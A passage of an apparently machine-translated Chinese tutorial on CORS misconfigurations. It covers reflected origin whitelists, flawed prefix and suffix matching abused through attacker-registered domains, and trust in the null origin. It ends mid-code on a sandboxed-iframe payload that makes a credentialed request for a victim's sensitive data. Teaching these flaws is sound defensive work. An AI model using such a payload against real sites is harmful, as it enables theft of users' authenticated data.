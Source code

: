 

> 
<h3> 2、解析原始标头时出错</h3>
1、一些支持从多个来源访问的应用程序通过使用允许来源的白名单来实现这一点。当接收到CORS请求时，将提供的来源与白名单进行比较。如果来源出现在白名单上，则它将反映在Access-Control-Allow-Origin报头中，以便授予访问权限。
<pre><code>如应用程序接收正常请求，如：
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com

应用产品将对照其允许的来源列表检查提供的来源，如果来源在列表中，则按如下方式反映来源：
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com</code></pre>
<hr/>
2、实施CORS原点白名单时经常会出现错误。一些组织决定允许从其所有子域（包括未来尚不存在的子域）进行访问。并且一些应用程序允许从各种其他组织的域（包括它们的子域）进行访问。这些规则通常通过匹配URL前缀或后缀，或使用正则表达式来实现。实现中的任何错误都可能导致访问权限被授予非预期的外部域。
<pre><code>1、假设某个应用程序赠款对以下列字符结尾的所有域的访问权限：
normal-website.com

攻击者可能能够通过注册以下域获得访问权限：
hackersnormal-website.com

2、假设应用程序赠款对以开头的所有域的访问权限
normal-website.com

攻击者可能能够使用以下域获得访问权限：
normal-website.com.evil-user.net</code></pre>


> 
<h3> 3、白名单中的空原点值</h3>
1、原始标头的规范支持值null。
<pre><code>浏览器可能会发送该值null在各种异常情况下的原始标题中：
    跨源重定向。
    来自序列化数据的请求。
    使用 file:协议请求。
    沙盒跨来源请求。</code></pre>
某些应用程序可能会将null支持应用程序的本地开发。
<pre><code>例如，假设应用程序接收到以下跨来源请求：
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null

并且服务器响应如下：
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true</code></pre>
在这种情况下，攻击者可以使用各种技巧生成包含该值的跨源请求null在原始标题中。这将满足白名单，从而实现跨域访问。
<pre><code>例如，这可以使用沙箱来完成 内嵌框架跨来源申请表格：
&lt;iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,&lt;script&gt;
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
